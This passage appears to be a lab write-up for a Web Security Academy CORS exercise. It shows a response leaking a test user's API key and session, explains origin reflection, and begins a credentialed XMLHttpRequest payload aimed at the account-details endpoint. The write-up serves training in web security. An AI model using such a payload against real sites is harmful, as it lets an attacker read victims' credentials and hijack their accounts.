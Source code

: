 	
	```
	
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Credentials: true
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 149
	
	{
	    "username": "wiener",
	    "email": "",
	    "apikey": "o5BObzi7TrabVjCMQedPZO3Zhwams76K",
	    "sessions": [
	        "vkjmdpJMH5KB0bv3S6fwEs4msYf62T7O"
	    ]
	}
	```
	
	If we send another request with an arbitrary Origin header, we see that the arbitrary value is reflected in the `Access-Control-Allow-Origin` response header. This means that a site on any origin can make requests to the vulnerable site and read the responses. 
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801141507.png)
	
	We can use the payload from Payloadsallthethings at https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#origin-reflection
	
	```javascript
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','https://0a6300590490f183806703ee00fc00ea.web-security-academy.net/accountDetails',true); 
	req.withCredentials = true;
	req.send();
	